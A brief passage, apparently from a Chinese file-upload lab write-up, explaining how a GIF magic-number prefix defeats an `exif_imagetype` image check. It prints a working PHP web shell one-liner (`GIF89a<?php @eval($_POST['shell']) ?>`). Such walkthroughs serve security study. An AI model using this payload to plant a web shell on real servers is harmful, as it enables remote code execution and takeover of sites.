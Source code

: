 核心拦截逻辑位于 `exif_imagetype` 函数，是基于文件的 Magic Number 进行判断的，那么可以套用一个图片文件的 Magic Number 进行绕过

```plaintext
GIF89a<?php @eval($_POST['shell']) ?>
```

![img](img/image_20250156-115624.png)

然后直接操作 webshell 即可
